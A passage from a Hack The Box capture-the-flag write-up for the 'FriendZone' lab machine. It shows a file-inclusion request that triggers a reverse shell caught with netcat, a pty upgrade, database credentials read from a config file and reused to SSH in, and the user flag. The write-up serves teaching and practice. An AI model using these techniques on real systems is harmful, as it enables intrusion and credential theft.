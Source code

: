 I trigger the shell with the following request: `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/shell`

```
# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.123] 36974
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 23:16:59 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@FriendZone:/$
```

Found other credentials in the `/var/www` directory:

```
www-data@FriendZone:/var/www$ ls -la
ls -la
total 36
drwxr-xr-x  8 root root 4096 Oct  6 15:47 .
drwxr-xr-x 12 root root 4096 Oct  6 02:07 ..
drwxr-xr-x  3 root root 4096 Jan 16 22:13 admin
drwxr-xr-x  4 root root 4096 Oct  6 01:47 friendzone
drwxr-xr-x  2 root root 4096 Oct  6 01:56 friendzoneportal
drwxr-xr-x  2 root root 4096 Jan 15 21:08 friendzoneportaladmin
drwxr-xr-x  3 root root 4096 Oct  6 02:05 html
-rw-r--r--  1 root root  116 Oct  6 15:47 mysql_data.conf
drwxr-xr-x  3 root root 4096 Oct  6 01:39 uploads
www-data@FriendZone:/var/www$ cat mysql_data.conf
cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

There's a `friend` user in the local passwd database:

```
www-data@FriendZone:/var/www$ grep friend /etc/passwd
grep friend /etc/passwd
friend:x:1000:1000:friend,,,:/home/friend:/bin/bash
```

I can SSH in with those credentials and grab the `user.txt` flag:

```
root@ragingunicorn:~/htb/friendzone# ssh friend@10.10.10.123
Ilcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Sat Feb  9 23:43:09 2019 from 10.10.14.23
friend@FriendZone:~$ cat user.txt
a9ed20...
```